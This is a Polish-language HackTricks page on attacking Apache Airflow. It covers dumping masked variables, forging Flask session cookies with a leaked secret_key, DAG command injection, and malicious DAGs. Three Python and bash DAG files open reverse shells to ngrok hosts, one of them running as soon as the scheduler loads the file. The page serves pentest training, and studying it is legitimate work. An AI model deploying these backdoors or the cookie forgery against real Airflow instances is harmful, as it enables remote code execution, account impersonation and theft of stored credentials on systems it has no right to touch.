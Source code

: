 # Apache Airflow Security

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Basic Information

[**Apache Airflow**](https://airflow.apache.org) służy jako platforma do **orkiestrowania i planowania potoków danych lub przepływów pracy**. Termin "orkiestracja" w kontekście potoków danych oznacza proces aranżowania, koordynowania i zarządzania złożonymi przepływami danych pochodzącymi z różnych źródeł. Głównym celem tych orkiestrujących potoków danych jest dostarczenie przetworzonych i nadających się do użycia zbiorów danych. Zbiory te są szeroko wykorzystywane przez wiele aplikacji, w tym, ale nie tylko, narzędzia do analizy biznesowej, modele nauki o danych i uczenia maszynowego, które są podstawą funkcjonowania aplikacji big data.

W zasadzie, Apache Airflow pozwoli Ci **zaplanować wykonanie kodu, gdy coś** (zdarzenie, cron) **się wydarzy**.

### Local Lab

#### Docker-Compose

Możesz użyć **pliku konfiguracyjnego docker-compose z** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml), aby uruchomić kompletną środowisko docker apache airflow. (Jeśli jesteś na MacOS, upewnij się, że przydzielisz co najmniej 6 GB RAM dla VM docker).

#### Minikube

Jednym z łatwych sposobów na **uruchomienie apache airflow** jest uruchomienie go **z minikube**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Konfiguracja Airflow

Airflow może przechowywać **wrażliwe informacje** w swojej konfiguracji lub możesz znaleźć słabe konfiguracje:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### Airflow RBAC

Zanim zaczniesz atakować Airflow, powinieneś zrozumieć **jak działają uprawnienia**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### Ataki

#### Enumeracja konsoli internetowej

Jeśli masz **dostęp do konsoli internetowej**, możesz uzyskać dostęp do niektórych lub wszystkich następujących informacji:

* **Zmienne** (Własne wrażliwe informacje mogą być tutaj przechowywane)
* **Połączenia** (Własne wrażliwe informacje mogą być tutaj przechowywane)
* Uzyskaj do nich dostęp w `http://<airflow>/connection/list/`
* [**Konfiguracja**](./#airflow-configuration) (Wrażliwe informacje, takie jak **`secret_key`** i hasła mogą być tutaj przechowywane)
* Lista **użytkowników i ról**
* **Kod każdego DAG** (który może zawierać interesujące informacje)

#### Pobieranie wartości zmiennych

Zmienne mogą być przechowywane w Airflow, aby **DAGi** mogły **uzyskiwać** ich wartości. Jest to podobne do sekretów innych platform. Jeśli masz **wystarczające uprawnienia**, możesz uzyskać do nich dostęp w GUI w `http://<airflow>/variable/list/`.\
Airflow domyślnie pokaże wartość zmiennej w GUI, jednak zgodnie z [**tym**](https://marclamberti.com/blog/variables-with-apache-airflow/) możliwe jest ustawienie **listy zmiennych**, których **wartość** będzie wyświetlana jako **gwiazdki** w **GUI**.

![](<../../.gitbook/assets/image (164).png>)

Jednak te **wartości** mogą być nadal **pobrane** za pomocą **CLI** (musisz mieć dostęp do bazy danych), **wykonywania dowolnego DAG**, **API** uzyskującego dostęp do punktu końcowego zmiennych (API musi być aktywowane) i **nawet samego GUI!**\
Aby uzyskać dostęp do tych wartości z GUI, po prostu **wybierz zmienne**, do których chcesz uzyskać dostęp i **kliknij na Akcje -> Eksportuj**.\
Innym sposobem jest przeprowadzenie **bruteforce** na **ukrytej wartości** za pomocą **filtrowania wyszukiwania**, aż ją uzyskasz:

![](<../../.gitbook/assets/image (152).png>)

#### Eskalacja uprawnień

Jeśli konfiguracja **`expose_config`** jest ustawiona na **True**, z **rolą Użytkownika** i **wyżej** można **czytać** **konfigurację w sieci**. W tej konfiguracji pojawia się **`secret_key`**, co oznacza, że każdy użytkownik z tym ważnym kluczem może **utworzyć własny podpisany cookie, aby podszyć się pod inne konto użytkownika**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG Backdoor (RCE w Airflow worker)

Jeśli masz **uprawnienia do zapisu** w miejscu, gdzie **DAGi są zapisywane**, możesz po prostu **stworzyć jeden**, który wyśle ci **reverse shell.**\
Zauważ, że ten reverse shell będzie wykonywany wewnątrz **kontenera airflow worker:**
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG Backdoor (RCE w harmonogramie Airflow)

Jeśli ustawisz coś do **wykonania w katalogu głównym kodu**, w momencie pisania tego tekstu, zostanie to **wykonane przez harmonogram** po kilku sekundach od umieszczenia go w folderze DAG.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### Tworzenie DAG

Jeśli uda ci się **skompromentować maszynę w klastrze DAG**, możesz stworzyć nowe **skrypty DAG** w folderze `dags/`, a one będą **replikowane w pozostałych maszynach** w klastrze DAG.

#### Wstrzykiwanie kodu DAG

Kiedy wykonujesz DAG z GUI, możesz **przekazać argumenty** do niego.\
Dlatego, jeśli DAG nie jest odpowiednio zakodowany, może być **vulnerable to Command Injection.**\
To właśnie wydarzyło się w tym CVE: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Wszystko, co musisz wiedzieć, aby **zacząć szukać wstrzyknięć poleceń w DAGach**, to że **parametry** są **dostępne** za pomocą kodu **`dag_run.conf.get("param_name")`**.

Ponadto, ta sama podatność może wystąpić z **zmiennymi** (zauważ, że przy wystarczających uprawnieniach możesz **kontrolować wartość zmiennych** w GUI). Zmienne są **dostępne za pomocą**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Jeśli są używane na przykład wewnątrz polecenia bash, możesz wykonać wstrzyknięcie polecenia.

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
